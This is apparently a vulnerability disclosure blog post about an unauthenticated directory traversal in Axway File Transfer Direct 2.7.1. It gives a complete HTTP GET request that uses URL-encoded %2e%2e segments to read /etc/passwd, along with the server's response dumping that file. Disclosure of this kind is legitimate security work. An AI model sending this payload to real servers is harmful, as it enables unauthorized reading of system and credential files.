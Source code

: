 ```yaml
---
layout: post
title:  "Directory Traversal in Axway File Transfer Direct"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Axway

Product: Axway File Transfer Direct

Version affected:  2.7.1

Axway is a software and services company registered in France with headquarters in Phoenix, Arizona. Established in 2001, Axway serves more than 11,000 organisations in 100 countries, with offices around the globe. Their award-winning products, solutions and services enable the business-critical transactions required to accelerate performance within and among enterprises - while providing management, security and governance on interactions throughout business networks.

#### Product description:

File Transfer Direct is an ad hoc file exchange solution that brings enterprise-class managed file transfer (MFT) capabilities to familiar email interfaces and web-based clients. File Transfer Direct transparently applies administrator-defined policies while adding the security and audit capabilities required for corporate governance and regulatory compliance.

#### Finding:

The unauthenticated Directory Traversal vulnerability can be exploited by issuing a specially crafted HTTP GET request utilizing a simple bypass, %2e%2e instead of (/),URL encoding.

Example:
{% highlight ruby %}

REQUEST
========

GET /h2hdocumentation//%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: a.b.c.d
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
{% endhighlight %}

{% highlight ruby %}

RESPONSE
========
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1713
Date: Tue, 23 Jan 2018 03:42:11 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
clam:x:100:102:Clam Anti Virus Checker:/var/clamav:/sbin/nologin
nocpulse:x:101:103:NOCpulse user:/var/lib/nocpulse:/bin/bash
hpsmh:x:500:500::/opt/hp/hpsmh:/sbin/nologin
ftd:x:20230:20000:ftd:/home/ftd:/bin/bash
nrpe:*:20231:20231:nrpe:/home/nrpe:/sbin/nologin
tss:x:102:105:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
stunnel:x:20009:20011:user stunnel:/dev/null:/bin/false
_lldpd:x:103:501::/home/_lldpd:/bin/bash
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Path_Traversal
2. https://www.axway.com/
3. Axway File Transfer Direct - http://infosightsol.com/wordpress/wp-content/uploads/2012/11/Axway_Datasheet_File_Transfer_Direct_EN.pdf
